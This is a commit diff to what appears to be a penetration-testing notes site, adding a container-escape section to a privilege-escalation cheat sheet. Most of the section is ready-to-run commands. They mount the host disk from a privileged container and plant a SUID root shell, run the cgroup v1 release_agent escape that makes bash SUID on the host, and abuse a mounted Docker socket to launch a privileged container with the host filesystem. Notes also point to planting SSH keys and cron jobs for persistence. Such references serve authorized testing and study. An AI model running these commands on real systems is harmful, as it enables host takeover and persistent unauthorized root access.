

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from privesc/privesc_main.md, in a window 1280 px wide and 1400 px high, scrolled down 3422 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
privesc: add container escape techniques (privileged, cap_sys_admin, Docker socket, hostPath)
- Container detection: /.dockerenv, cgroup check
- Privileged container: disk mount and chroot to host filesystem
- cap_sys_admin: cgroup v1 notify_on_release escape chain
- Docker socket: escape via new privileged container with host volume mount
- Writable hostPath: SSH key injection, cron drop to host

````diff
--- a/privesc/privesc_main.md
+++ b/privesc/privesc_main.md
@@ -158,6 +158,73 @@
 docker run -v /:/mnt --rm -it alpine chroot /mnt sh
 ```
 
+## Container Escape (from inside a container)
+
+```bash
+# Am I in a container?
+cat /proc/1/cgroup | grep -i docker
+ls /.dockerenv
+```
+
+### Privileged container — host filesystem accessible
+
+```bash
+# Check: docker inspect <id> → "Privileged": true
+# Or: ls /sys/kernel/security/apparmor (mounted = likely privileged)
+cat /proc/self/status | grep CapEff   # all 1s = full capabilities
+
+# Mount host disk and chroot
+fdisk -l                        # find host disk (e.g. /dev/sda1)
+mkdir /mnt/host && mount /dev/sda1 /mnt/host
+chroot /mnt/host /bin/bash      # now on host filesystem
+
+# Add SUID bash on host
+cp /mnt/host/bin/bash /mnt/host/tmp/rootbash
+chmod +s /mnt/host/tmp/rootbash
+# Then on host: /tmp/rootbash -p → root shell
+```
+
+### cap_sys_admin — mount namespace escape
+
+```bash
+# Check capability
+cat /proc/self/status | grep CapEff
+capsh --decode=<hex_value>      # decode capabilities
+
+# If cap_sys_admin present — mount host via cgroups v1
+mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp
+mkdir /tmp/cgrp/x && echo 1 > /tmp/cgrp/x/notify_on_release
+host_path=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)
+echo "$host_path/cmd" > /tmp/cgrp/release_agent
+echo '#!/bin/sh' > /cmd && echo "chmod +s /bin/bash" >> /cmd && chmod +x /cmd
+sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
+# Wait, then: bash -p → root
+```
+
+### Docker socket escape (socket mounted in container)
+
+```bash
+# Check
+ls -la /var/run/docker.sock    # exists and accessible?
+
+# Escape via new privileged container with host mount
+docker -H unix:///var/run/docker.sock run -it \
+  -v /:/host --privileged alpine chroot /host sh
+
+# Or enumerate the host's containers
+docker -H unix:///var/run/docker.sock ps -a
+```
+
+### Writable hostPath mount
+
+```bash
+# Check mounted paths
+cat /proc/self/mounts | grep -v "cgroup\|proc\|sys\|dev"
+# If host path is mounted writable:
+# Write SSH key to host's /root/.ssh/authorized_keys
+# Write cron job to /etc/cron.d/
+```
+
 ## LXD / LXC Group
 
 ```bash
````
